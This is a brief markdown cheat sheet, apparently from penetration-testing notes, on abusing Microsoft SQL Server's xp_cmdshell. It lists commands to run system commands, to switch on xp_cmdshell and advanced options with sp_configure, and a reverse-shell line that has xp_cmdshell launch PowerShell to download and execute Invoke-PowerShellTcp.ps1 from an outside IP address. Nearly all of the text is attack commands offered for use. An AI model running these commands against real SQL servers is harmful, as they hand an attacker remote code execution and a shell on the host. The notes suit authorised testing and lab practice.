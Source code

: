 # MSSQL

## XP Command Shell

- execute command
```
xp_cmdshell 'whoami'
```

- enable xp_cmdshell
```
EXEC SP_CONFIGURE 'xp_cmdshell',1
reconfigure
```

- install xp_cmdshell
```
EXEC SP_CONFIGURE 'show advanced options',1
reconfigure
```

- revshell (limit of 128 chars)
```
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/Invoke-PowerShellTcp.ps1')"
```

